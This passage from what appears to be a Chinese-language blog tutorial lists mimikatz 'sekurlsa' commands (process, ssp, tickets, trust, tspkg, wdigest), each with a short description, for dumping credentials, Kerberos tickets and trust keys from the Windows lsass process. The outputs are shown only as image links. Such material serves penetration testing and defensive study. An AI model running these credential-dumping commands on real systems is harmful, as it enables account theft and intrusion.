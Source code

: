 process –切换到lsass进程上下文 

```text
sekurlsa::process
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007161355531.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

ssp :列出ssp凭据  


```text
sekurlsa::ssp
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007161607760.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

tickets: 列出所有最近通过身份验证的用户的所有可用Kerberos票证

```text
sekurlsa::tickets
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

 ![](https://img-blog.csdnimg.cn/20201007161655950.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​

trust:获取信任域密钥

```text
sekurlsa::trust
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

 ![](https://img-blog.csdnimg.cn/2020100716173394.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​

tspkg:列出tspkg凭据

```text
sekurlsa::tspkg
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007161757450.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

wdigest:列出wdigest凭据

```text
sekurlsa::wdigest
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)
